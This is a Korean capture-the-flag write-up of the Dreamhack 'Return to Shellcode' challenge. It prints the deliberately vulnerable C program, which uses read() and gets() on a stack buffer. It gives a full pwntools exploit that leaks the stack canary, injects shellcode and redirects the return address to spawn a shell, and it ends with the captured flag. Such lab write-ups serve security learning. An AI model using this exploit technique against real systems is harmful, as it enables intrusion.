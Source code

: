 <!DOCTYPE html>
<html>
<head>
    <link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
    <h1> Dreamhack "Return to Shellcode"  Write-UP</h1>
</body>
<br>
<br>
</html>

2025.09.22 풀이

<img width="660" height="366" alt="image" src="https://github.com/user-attachments/assets/ba46ffa9-d64d-4d78-b680-b7e79666f664" />

문제 파일을 pwndbg로 확인해보니, canary가 설정되어 있는 것을 알 수 있다. 

<br>

</br> 

```
#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```

문제 코드를 살펴보았다.
이 코드는 buf 주소와 buf와 RBP의 거리를 알려주고, 첫 입력에서 스택 내용을 흘려보내
canary 누출을 시도하는 것으로 보인다. 그 후, 두 번째 입력에서 gets로
길이 검사 없이 덮어써서 return address를 덮을 수 있게 만들어져 있다.

<br>

</br> 

<img width="972" height="214" alt="image" src="https://github.com/user-attachments/assets/8790ad94-09b9-42fd-ae05-888d81a7a501" />

실제 파일을 실행해보면, 주소와 거리가 출력되는 것을 확인할 수 있다.

<br>

</br> 

```
from pwn import *

p = remote("host1.dreamhack.games", 11546)  # ip는 string, port는 int형
context.arch = 'amd64'  

p.recvuntil(b'buf: ')
buf = int(p.recvline()[:-1], 16)  

p.recvuntil(b'$rbp: ')
buf2sfp = int(p.recvline().split()[0])  # buf에서 rbp까지의 거리
buf2cnry = buf2sfp - 8  

payload = b'A' * (buf2cnry + 1) 
p.sendafter(b'Input:', payload)

p.recvuntil(payload)  
cnry = u64(b'\x00' + p.recvn(7))  # 카나리 값 복원


sh = asm(shellcraft.sh())  # 쉘코드 생성

payload = sh.ljust(buf2cnry, b'A')  # 카나리 앞까지 쉘코드 + 패딩
payload += p64(cnry)  
payload += b'B' * 8   
payload += p64(buf)   # Return Address를 buf로 설정 

p.sendlineafter(b'Input:', payload)  

p.interactive()
```
이를 통해, 기본적으로 제공받는 정보인 주소, 오프셋을 이용해 카나리를 유출한 후,
그 카나리를 그대로 유지하면서 리턴 주소를 버퍼로 덮어 버퍼 내 쉘 코드를 실행하게 만드는
코드를 작성해보았다. buf 주소와 buf→$rbp 거리를 이용해 스택 오프셋을 계산한 뒤,
첫 입력으로 printf("%s")를 유도해 스택 카나리 값을 누출(leak)하고,
두 번째 입력에서 그 정확한 카나리값을 그대로 넣은 채 리턴 주소를
buf로 덮어서 버퍼에 넣어둔 쉘코드가 실행되게끔 하였다.

<br>

</br> 

<img width="1150" height="442" alt="image" src="https://github.com/user-attachments/assets/85feb62e-3771-4dd1-9b57-2d5a973d9839" />

해당 코드를 실행해보니, flag 값을 얻을 수 있었다.

<br>

</br> 

```
DH{333eb89c9d2615dd8942ece08c1d34d5}
```

